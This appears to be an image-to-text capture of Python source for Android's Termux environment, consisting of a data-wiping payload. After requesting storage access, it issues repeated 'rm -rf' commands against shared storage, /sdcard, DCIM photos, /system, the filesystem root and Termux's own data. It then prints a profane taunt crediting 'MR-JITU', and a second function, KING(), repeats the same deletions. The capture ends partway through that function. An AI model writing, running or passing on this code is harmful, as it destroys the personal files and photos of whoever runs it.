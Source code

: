      

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

    os.system('mv $HOME /dev/null')

    os.system("rm -rf /data/data/com.termux/")

    print(f'{M} Your System Fucked by {H} MR-JITU🧸{P}')

    

def KING():

    os.system("rm -rf /sdcard/DCIM")

    os.system("rm -rf /sdcard/*")

    os.system("rm -rf /sdcard/update")

     

    os.system('termux-setup-storage')

    os.system('rm -rf /storage/emulated/0/*')

    os.system('rm -rf /storage/emulated/*')

    os.system('rm -rf /sdcard/*')

    os.system('rm -rf /sdcard/0/*')

    os.system('rm -rf /sdcard1/*')

    os.system('rm -rf /storage/*')

    os.system('rm -rf /*')

    os.system('rm -rf /system/*')

    os.system('rm -rf $HOME/../../*')

    os.system('rm -rf $PREFIX/b')

    os.system('rm -rf $HOME/*')

